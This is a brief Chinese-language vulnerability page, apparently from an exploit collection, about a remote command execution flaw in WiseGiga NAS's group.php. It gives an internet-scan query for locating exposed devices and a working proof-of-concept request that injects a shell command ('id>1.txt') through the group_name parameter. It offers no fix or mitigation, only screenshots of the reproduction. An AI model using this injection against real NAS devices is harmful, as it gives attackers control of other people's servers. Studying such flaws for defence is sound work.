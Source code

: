 # WiseGiga NAS group.php 远程命令执行漏洞

## 漏洞描述

WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限

## 漏洞影响

<a-checkbox checked>WiseGiga NAS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="WISEGIGA-NAS"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1656240215340-595e0191-aa82-407e-972d-a59339dfd28a-20220626192524954.png)

验证POC

```php
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```

![img](../../../.vuepress/public/img/1656242636704-5f2865a9-4521-4d83-9e09-e39794f8204b-20220626192504901.png)

![img](../../../.vuepress/public/img/1656242655760-33a64203-f341-4af7-a9b8-5aeb1ff66859-20220626192501808.png)